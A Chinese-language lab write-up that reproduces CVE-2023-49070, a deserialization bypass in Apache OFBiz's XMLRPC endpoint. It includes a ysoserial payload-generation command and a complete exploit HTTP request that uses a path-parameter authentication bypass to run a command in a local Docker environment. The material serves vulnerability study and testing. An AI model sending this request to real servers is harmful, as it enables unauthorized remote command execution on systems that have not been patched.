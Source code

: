 # Apache OfBiz 反序列化命令执行漏洞（CVE-2023-49070）

Apache OFBiz是一个非常著名的电子商务平台，是一个非常著名的开源项目，提供了创建基于最新J2EE/XML规范和技术标准，构建大中型企业级、跨平台、跨数据库、跨应用服务器的多层、分布式电子商务类WEB应用系统的框架。 OFBiz最主要的特点是OFBiz提供了一整套的开发基于Java的web应用程序的组件和工具。包括实体引擎, 服务引擎, 消息引擎, 工作流引擎, 规则引擎等。

在Apache OFBiz 17.12.03版本及以前存在一处XMLRPC导致的反序列漏洞，官方于后续的版本中对相关接口进行加固修复漏洞，但修复方法存在绕过问题（CVE-2023-49070），攻击者仍然可以利用反序列化漏洞在目标服务器中执行任意命令。

Apache OFBiz官方于18.12.10中彻底删除xmlrpc接口修复该漏洞。

参考链接：

- <https://www.openwall.com/lists/oss-security/2023/12/04/2>

## 漏洞环境

执行如下命令启动一个Apache OfBiz 18.12.09版本：

```
docker compose up -d
```

在等待数分钟后，访问`https://localhost:8443/accounting`查看到登录页面，说明环境已启动成功。

## 漏洞复现

漏洞复现方式与[CVE-2020-9496](https://github.com/vulhub/vulhub/tree/master/ofbiz/CVE-2020-9496)相似，只是需要绕过官方对于漏洞的补丁限制。

首先，仍然使用[ysoserial](https://github.com/frohoff/ysoserial)的CommonsBeanutils1来生成Payload：

```
java -jar ysoserial.jar CommonsBeanutils1 "touch /tmp/success" | base64 | tr -d "\n"
```

![](1.png)

使用CVE-2020-9496中的复现方法发送数据包，可见已经无法成功进入XMLRPC的解析流程：

![](2.png)

把Path修改成`/webtools/control/xmlrpc;/?USERNAME=&PASSWORD=&requirePasswordChange=Y`即可绕过限制：

```
POST /webtools/control/xmlrpc;/?USERNAME=&PASSWORD=&requirePasswordChange=Y HTTP/1.1
Host: your-ip
Content-Type: application/xml
Content-Length: 4093

<?xml version="1.0"?>
<methodCall>
  <methodName>ProjectDiscovery</methodName>
  <params>
    <param>
      <value>
        <struct>
          <member>
            <name>test</name>
            <value>
              <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">[base64-payload]</serializable>
            </value>
          </member>
        </struct>
      </value>
    </param>
  </params>
</methodCall>
```

![](3.png)

进入容器中，可见`touch /tmp/success`已成功执行：

![](4.png)
